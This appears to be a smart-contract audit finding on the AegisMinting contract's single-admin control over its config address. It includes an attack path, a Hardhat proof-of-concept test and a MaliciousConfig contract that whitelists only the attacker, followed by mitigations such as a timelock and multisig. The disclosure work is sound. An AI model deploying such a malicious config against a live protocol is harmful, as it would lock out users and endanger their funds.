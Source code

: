 Passive Garnet Goldfish

Medium

# Insufficient Access Control on Critical Configuration Changes

### Summary

Insufficient safeguards on config address changes will cause a significant security risk for protocol users as a single admin can replace core configuration with a malicious contract, blocking legitimate users and potentially enabling theft of funds.

### Root Cause

In the AegisMinting contract, the [setAegisConfigAddress](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/main/aegis-contracts/contracts/AegisMinting.sol#L488) function only requires `DEFAULT_ADMIN_ROLE` without additional protective measures like timelock or multi-signature authorization. This centralized control point violates security best practices for critical infrastructure changes.

### Internal Pre-conditions

1. An account with DEFAULT_ADMIN_ROLE needs to be compromised or act maliciously
2. The protocol must have active users and liquidity to make the attack worthwhile

### External Pre-conditions

None required.

### Attack Path

1. Attacker gains access to an address with `DEFAULT_ADMIN_ROLE`
2. Attacker deploys a malicious config contract (as shown in MaliciousConfig.sol)
3. Attacker calls setAegisConfigAddress() to replace legitimate config
4. Malicious config prevents normal users from interacting with the protocol through whitelist manipulation
5. Attacker can continue to use the protocol as the only whitelisted user

### Impact

Protocol users suffer denial of service as they're blocked from minting/redeeming. The attacker can potentially extract value by manipulating protocol parameters and achieving exclusive access to protocol functionality. This could lead to significant trust erosion and adoption problems.

### PoC

```solidity 
describe('vulnerabilities', () => {
  it('should demonstrate insufficient access control vulnerability', async () => {
    const [owner, attacker] = await ethers.getSigners();
    const { aegisMintingContract, aegisConfig } = await loadFixture(deployFixture);

    // Create a malicious config contract
    const MaliciousConfig = await ethers.getContractFactory('MaliciousConfig');
    const maliciousConfig = await MaliciousConfig.deploy(attacker.address, [], attacker.address);
    await maliciousConfig.waitForDeployment();

    // The vulnerability is that setAegisConfigAddress only requires DEFAULT_ADMIN_ROLE
    // and doesn't have additional safeguards like a timelock or multi-sig
    await aegisMintingContract.setAegisConfigAddress(maliciousConfig);

    // Verify the config was changed
    const newConfig = await aegisMintingContract.aegisConfig();
    expect(newConfig).to.equal(await maliciousConfig.getAddress());
    
    // Verify malicious behavior
    const regularUser = await (await ethers.getContractFactory("MockERC20")).deploy();
    const isWhitelisted = await maliciousConfig.isWhitelisted(regularUser.getAddress());
    expect(isWhitelisted).to.equal(false);
    
    const attackerWhitelisted = await maliciousConfig.isWhitelisted(attacker.address);
    expect(attackerWhitelisted).to.equal(true);
  });
});
```


//MaliciousConfig.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import "@openzeppelin/contracts/access/Ownable2Step.sol";
import "@openzeppelin/contracts/access/Ownable.sol";
import { ERC165 } from "@openzeppelin/contracts/utils/introspection/ERC165.sol";

import { IAegisConfig, IAegisConfigEvents, IAegisConfigErrors } from "../interfaces/IAegisConfig.sol";

contract MaliciousConfig is ERC165, Ownable2Step, IAegisConfigEvents, IAegisConfigErrors {
    address public trustedSigner;
    bool public whitelistEnabled = true;
    mapping(address => bool) private _whitelist;
    mapping(address => bool) private _operators;

    constructor(address _trustedSigner, address[] memory _ops, address _initialOwner) Ownable(_initialOwner) {
        if (_trustedSigner == address(0)) revert ZeroAddress();
        trustedSigner = _trustedSigner;

        for (uint256 i = 0; i < _ops.length; i++) {
            _operators[_ops[i]] = true;
        }
    }

    function supportsInterface(bytes4 interfaceId) public view virtual override(ERC165) returns (bool) {
        return interfaceId == type(IAegisConfig).interfaceId || super.supportsInterface(interfaceId);
    }

    function isWhitelisted(address addr) public view returns (bool) {
        // Malicious behavior: always return false for non-attacker addresses
        if (addr == owner()) return true;
        return false;
    }

    function whitelistAddress(address addr, bool whitelisted) external onlyOwner {
        _whitelist[addr] = whitelisted;
        emit WhitelistAddress(addr, whitelisted);
    }

    function whitelistAddress(address[] memory addrs, bool[] memory whitelisted) external onlyOwner {
        if (addrs.length != whitelisted.length) {
            revert InvalidArguments();
        }

        for (uint256 i = 0; i < addrs.length; i++) {
            _whitelist[addrs[i]] = whitelisted[i];
        }

        emit WhitelistAddressBatch(addrs, whitelisted);
    }
} 
```



### Mitigation

Implement additional security measures for critical configuration changes:

1. Add a timelock for critical parameter changes
2. Require multi-signature authorization for config address changes
3. Add validation logic to ensure the new config contract meets expected interfaces and behaviors
4. Consider using a proxy pattern where config implementations can be upgraded but with stronger controls